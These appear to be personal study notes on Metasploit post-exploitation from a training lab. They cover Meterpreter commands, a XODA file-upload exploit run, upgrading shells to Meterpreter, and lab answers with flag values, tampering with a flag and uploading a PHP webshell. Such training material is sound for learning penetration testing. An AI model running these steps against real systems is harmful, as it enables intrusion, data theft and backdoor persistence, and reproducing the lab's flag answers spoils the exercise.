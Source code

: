 
https://www.offsec.com/metasploit-unleashed/meterpreter-basics/ 
## Post explotation Fundamentals 

![[Pasted image 20230827202208.png]]

Meterpreter 
- The Meterpreter (metapinterpreter)payload is an advanced multi-functional payload that operates via DLL injection and is executed in memory on the target system, consequently making it difficult to detect 
	- Traditional antivirus tools primarily scan files on disk. Detecting malicious activity that only occurs in memory is more challenging. While modern security solutions are improving in this area, it's still a difficult task to reliably detect and mitigate threats that operate solely in memory.
- meterpreter is a staged payload 
- it communicates over a stager socket and provides an attacker with an interactive command interpreter on the target system that facilitates the execution of system commands, file system navigation, keylogging and much more 
- Meterpreter also allows us to load custom script and plugins dynamically 
- MSF provides us with various types of meterpreter payloads that can be used based on the target environment and the OS architecture


1) start `msfconsole` 
2) `setg rhosts ip `
3) `db_nmap -sS -sV -O ip` 
4) we identified a webserver so we will downloads the content of the website: 
	1) `curl` `http://ip `
5) we see the webapplication being zoda which is exploitable 
6) ` search XODA`
7) `use exploit/unix/webapp/xoda_file_upload` 
	1) `set targetui /` (/xoda/ is the default but we want the root of the webserver)

Now we have a meterpreter session. What commands are most interesting? 
- `sysinfo` (what operating system is running on target, kernel version)
- `getuid` (tell us what our permissions are)
- `help` (documentation for meterpreter)
- `ls` 
- `pwd` 
- `cd ..`
- `cat` (display content of files )
- `edit` 
- `cd "Secret files"`
- `download {filename}`
- `unzip {filename.zip}`
- get MDF hash of binary like /bin/bash: `checksum md5 /bin/bash` 
- command is used to retrieve the values of environment variables on the compromised target system: `getenv PATH` 
- command is used to retrieve the values of environment variables on the compromised target system: `getenv TERM`
- search for files: `search -d /usr/bin -f *backdoor*  `
	- - `-d /usr/bin`: This part of the command specifies the directory where the search will take place. In this case, it's set to `/usr/bin`, which is a common directory on Unix-like systems where executable files (programs) are stored. The `-d` flag is used to specify the directory to search in.
	-  `-f`: This flag indicates that we're searching for files (as opposed to directories).
        -  `*backdoor*`: This is a wildcard pattern. The asterisks (`*`) act as placeholders for any characters before and after "backdoor." This means it will match any filename that contains "backdoor" anywhere in the name
- search for specific file extension: `search -f *.jpg `
- if you want to pop a shell on target system: 
	- `shell` 
		- In windows: command prompt session  
		- In linux: terminal session 
- open a bash session: `/bin/bash -i `
- list process tree (processes currently running on the system): `ps`  
- migrate to another process: `migrate` `processid or name process` e.g. 
  `migrate 432`
- execute command via meterpreter: `execute -f ifconfig` 
- The **lpwd** and **lcd** commands are used to display and change the local working director


##### Session management: 
- put session in background: `background` or (control + Z)
- kill session: `exit` 
- list sessions: `sessions` 
- help menu for sessions: `sessions -h` 


-----

###  Upgrading Command Shells to Meterpreter Shells 


1) start `msfconsole` 
2) create `workspace`
3) `setg rhosts ip `
4) `db_nmap -sS -sV -O ip` 

6) (exploit service)

two ways to upgrade session:
 
7) upgrade shell:
	1) ` search shell_to_meterpreter `
	2) `use post/multi/manage/shell_to_meterpreter `
	3) `set session session_to_be_upgraded`
	4) `set lhost kali_instance`
	   you do not need to change the lport is the session is not using this port
	5) `run` (upgrade to meterpreter session)

**OR**

7) upgrade shell
	1) `search shell_to_meterpreter` `
	2) `use post/multi/manage/shell_to_meterpreter `
	3) `sessions -h ` (help with commands (look at -u))
	4) `sessions -u 1 `
	5) 













































----


- Check the present working directory on remote (exploited) machine.
		`pwd`

  
- List the files present in present working directory of the remote machine.
		  ` ls -a`
  
- Check the present working directory on local (attacker) machine.
 ![[Pasted image 20230827224522.png]] 
  
- List the files present in present working directory of the local machine.
![[Pasted image 20230827224540.png]]
  
- Get the flag value present in /app/flag1 file.
  `5c50a439f040922188a22f88cecc5277` 
  
- Change the flag value present in /app/flag1, so that no one else can get the right flag.
  `edit /app/flag1`
  
- Change the present working directory to a suspiciously named directory in /app and read the flag from a hidden file present in that directory.
  
  `bbbb3ed27502614e27bff65faea008a0`
  
  
- Get the flag5.zip to local machine, open it using password 56784. The information given in the extracted file will give clue about the location of the another flag.
  
  *first download -> put meterpeter session in background and ls in msfconsole. unzip. cat* 
  ![[Pasted image 20230827230805.png]]
- Delete the .zip file from the directory.
`  rm flag5.zip `
  
  
- Print checksum of file mentioned in the extracted file (Refer to Q8).
  ![[Pasted image 20230827225130.png]]
  
  
- Check the PATH environment variable on the remote machine.
  
  `PATH      /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin `
  
- There is a file with string “ckdo” in its name in one of the places included in PATH variable. Print the flag hidden in that file.
  
  ![[Pasted image 20230827231039.png]]
  ![[Pasted image 20230827231144.png]]
  
- Change to tools directory on the local machine.
  ![[Pasted image 20230827231242.png]]
  ![[Pasted image 20230827231409.png]]
  
- Upload a PHP webshell to app directory of the remote machine. 
`upload /usr/share/webshells/php/php-backdoor.php`
![[Pasted image 20230827231635.png]]


---

